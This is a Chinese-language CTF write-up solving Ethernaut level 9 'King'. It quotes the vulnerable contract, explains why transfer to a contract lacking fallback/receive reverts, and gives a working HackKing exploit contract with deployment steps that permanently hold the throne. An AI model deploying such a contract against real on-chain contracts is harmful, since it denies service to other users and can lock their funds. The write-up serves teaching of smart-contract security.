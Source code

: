 title: 9. King
date: 2022-11-13 12:29:14
updated: 2022-11-13 12:29:14
tags: ethernaut
categories: Web3
---

Chain: Goerli
Difficulty: ●●●○○
Level: https://ethernaut.openzeppelin.com/level/0x25141B6345378e7558634Cf7c2d9B8670baFA417

### 要求

下面的合约表示了一个很简单的游戏: 任何一个发送了高于目前价格的人将成为新的国王. 在这个情况下, 上一个国王将会获得新的出价, 这样可以赚得一些以太币. 看起来像是庞氏骗局.

这么有趣的游戏, 你的目标是攻破他.

当你提交实例给关卡时, 关卡会重新申明王位. 你需要阻止他重获王位来通过这一关.

### 分析

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract King {

  address payable king;
  uint public prize;
  address payable public owner;

  constructor() public payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address payable) {
    return king;
  }
}
```

分析合约代码，关键点在于 `receive` 函数中：

```solidity
king.transfer(msg.value);
```

这里犯了常见的错误：未考虑调用者 `king` 为另一个合约的情况。如果该合约未定义 `fallback()` 和 `receive()` 函数，`transfer()` 就会失败，会自动`revert`（回滚交易）。

因此只要有一个未定义 `fallback()` 和 `receive()` 函数的合约占用king，合约在 transfer 时失败，令king的地址永远属于该合约。

另一个关键点是，King 合约的 receive 有复杂的逻辑， 而

`solidity`三种发送`ETH`的方法：`transfer`，`send`和`call`。

- `call`没有`gas`限制，最为灵活，是最提倡的方法；
- `transfer`有`2300 gas`限制，但是发送失败会自动`revert`交易，是次优选择；
- `send`有`2300 gas`限制，而且发送失败不会自动`revert`交易，几乎没有人用它。

因此只能用 `call` 函数进行调用。

### 解题

1. 首先打开Console，获取当前关卡合约实例地址 `instance`；
2. 打开 [Remix IDE](https://remix.ethereum.org/)，创建文件 `9_King.sol`，粘贴以下代码：
    
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.4;
    
    contract HackKing {
        error CallFailed();
        address levelInstance;
    
        constructor(address _levelInstance) payable {
            levelInstance = _levelInstance;
        }
    
        function give() external payable {
            (bool success,) = levelInstance.call{value: msg.value}("");
            if(!success){
                revert CallFailed();
            }
        }
    }
    ```
    
3. 在constructor 填入当前关卡合约实例地址后部署。
4. 再调用 `give` 函数：
    - 获取当前King 合约的 prize `await getBalance(instance)` 为 0.001 ether
    - VALUE 需要大于或者等于 0.001 ether
    - 手动调高 GAS LIMIT，不然调用合约会因为 out of gas 失败
5. 查看 King 合约的king是否为HackKing 合约。
6. 完成关卡。

### 后记

大多数 Ethernaut 的关卡尝试展示真实发生的 bug 和 hack (以简化过的方式).

关于这次的情况, 参见: [King of the Ether](https://www.kingoftheether.com/thrones/kingoftheether/index.html) 和 [King of the Ether Postmortem](http://www.kingoftheether.com/postmortem.html)